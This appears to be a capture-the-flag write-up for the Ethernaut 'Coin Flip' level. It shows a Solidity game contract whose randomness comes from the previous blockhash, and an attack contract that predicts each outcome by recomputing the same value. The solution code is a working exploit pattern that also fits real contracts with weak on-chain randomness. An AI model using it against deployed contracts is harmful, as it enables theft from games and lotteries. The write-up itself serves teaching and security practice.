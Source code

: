 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel3.svg">

# Target Contract Review

Given conract.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0; 
      return false;
    }
  }
}
```

Challenge's message.
>This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

We have contract which can increase consecutiveWins with be flying blind. To be more precise, in the **_flip()_** function set a variable call **blockValue** help with keeping the hash of the previous block number as uint256. If lasthash doesn't equal to blockValue, lasthash will be blockValue's value. Afterwards, if blockValue equal to FACTOR which is defined in the start, side variable will be true. Other senarious, side variable will be false. Lastly, if our guess is same with side, consecutiveWins **will be increased**.

## Global Variables in Solidity

In solidity, there are some variables which can call from everyone. **_block.number_** is one of them. In this case, we can access to current block number of chain. Thus, we make always **correct guess**. More about [Global Variables](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html#special-variables-and-functions).

# Subverting

My attack contract.
```solidity
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract Attack{

    CoinFlip coinflip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _target){
        coinflip = CoinFlip(_target);
    }

    function flip() external{
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint flip = blockValue/FACTOR;
        bool choice  = flip == 1 ? true : false;
        coinflip.flip(choice);
    }

    function showWins() external view returns(uint){
        return coinflip.consecutiveWins();
    }
}
```
Firstly, get our target contract address. Then set blockValue and choice as in target contract. And then send our guess to flip() function in the target contract.

```shell
await contract.address
'0x24Aa95c4f7bf90BAa33ec67698f5ADc64B0DB551'
```
Deploy an attack contract.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Coin%20Flip/img/deploy.png">

And then, call **flip()** function ten times. After tthat, we will passed this challenge.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Coin%20Flip/img/start.png">

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Coin%20Flip/img/finished.png">

Ethernaut's message:

>Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.
To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.
Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).

**_by wasny0ps_**
